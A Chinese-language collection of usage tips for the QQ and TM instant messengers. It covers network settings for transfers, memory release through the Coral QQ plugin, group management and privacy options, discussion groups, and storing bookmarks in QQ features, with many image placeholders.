

首先，在传送双方的QQ系统设置中找到网络设置，将“通讯模式选择”设置为“通过点对点模式与好友交换信息”。然后到登录设置中，把“当前的登录方式”设置为“UDP方式登录”（图1为QQ，图2为TM）。最后在网卡属性设置窗口的“常规”标签中单击“配置”按钮，切换到“高级”标签，将“Link Speed/Duplex Mode”设置为“Full Mode”（有的网卡选项中没有此选项）。

## 让QQ自动释放内存

现在的QQ动辄就占用几十兆的内存，少的时候也要十多兆（图1），有时还不知道释放占用的多余内存，机器不好的朋友可是叫苦连天。减少内存的占用可以通过卸载没用的组件达到目的，但要是让QQ自动释放内存就要借助珊瑚虫外挂了。





打开珊瑚虫的设置程序（安装目录下的CQQCfg.exe），选择“参数设置”，展开“扩展功能”，其中有一项“自动清理内存时间间隔”（图2），我这里设置的是30，使QQ每30分钟释放一次内存，每个人根据自己的使用情况进行设置。设置完成后重启外挂才能使设置生效。

### 实用QQ群的一些小技巧



### 屏蔽消息、图片

打开一个群窗口，点击屏蔽功能，有三个选项：屏蔽群内图片、来消息不提示和屏蔽群内节目通知（图1）。如果想屏蔽某人的发言，在他的头像上点击右键，选择“屏蔽此人发言”（图2）。你要是管理员的话还可以直接把他踢出本群。



### 查找潜水者

有的人加了群，长期不发言，像这样的人是要坚决踢出去的。使用QQ2006贺岁版以后的QQ版本，查看群设置中的成员管理，就能看到所有人最近发言的时间，把长期潜水的人请出去吧（图3）。

### 保护群隐私

为方便大家交流，我们常在群名片中注明自己的真实身份，可是又担心这些真实的身份和联系方式被群以外的网友看到。只要登录群社区，在管理区点击“群隐私保护”按钮，在隐私保护页面上选择“群名片不对外公开”就可以让群名片不被外人看到了。同时，还可以对群相册、群留言板进行隐私保护设置。



### 统一设置群消息

群消息的显示方式我一直都是挨个设置，每次新登录都设置半天。安装了新版QQ后无意点了一下右键，眼前一亮，看到了“统一设置群消息”，如图4。这下我不用再费事地一个一个设置了。



### 讨论组

讨论组也就是QQ原来的多人对话，但在QQ中给取消了。多人对话作为QQ群的补充给我们帮了不少忙，想重现多人对话可以使用TM中的讨论组功能。



首先登录TM，在窗口中切换到“群和讨论组”界面，在该界面的标题栏中点击右键，并选择“创建讨论组”命令（如图5），弹出创建讨论组对话框，在“讨论组名称”项目中输入多人讨论组的名称，随后在下面的QQ用户列表窗口中选择加入该讨论组的成员，最后点击“添加”按钮，即可将该用户添加到“当前讨论组用户”列表中，重复上面的方法添加完所有成员后点击“确定”按钮，该讨论组就创建成功了（图6）。在一个群名称上点击右键，选择“创建讨论组”，就可以添加群中的用户到讨论组中。创建完成后，保存讨论组，这个多人会话就长期存在了。



### 收藏夹随身带

经常在网吧上网的朋友，肯定都想拥有一个方便的收藏夹来存放自己常用的网址。其实QQ已经为我们“准备”了这个功能。

### 使用QQ小秘书

打开QQ然后点击最上面的QQ小秘书图标。这时就会出现“我的小秘书”的对话框。然后点击“自动应答设置”，这时我们可以看到一个“我的主题”的地方，点击“新增主题”，如图1所示。在标题中输入网址介绍，在内容中输入网址，就可以使用这个免费的收藏夹了，如图2所示。





### 使用QQ网络硬盘

首先在桌面上点击右键选择“快捷方式”，在弹出的“创建快捷方式”对话框中输入自己喜欢的网址，如“http://www.hackerxfiles.net”，如图3。点击下一步，输入快捷方式的名称“黑客X档案”，如图4。单击QQ主窗口中的“网络硬盘”标签，右击“我的网络硬盘”图标，选择弹出快捷菜单中的“上传→文件”，然后在打开的对话框中选择刚才新建的网站快捷方式即可，最后单击“确定”。或者直接把它拉入QQ网络硬盘下的“网址”文件夹下面，如图5所示。使用的时候直接双击执行就可以打开网页。





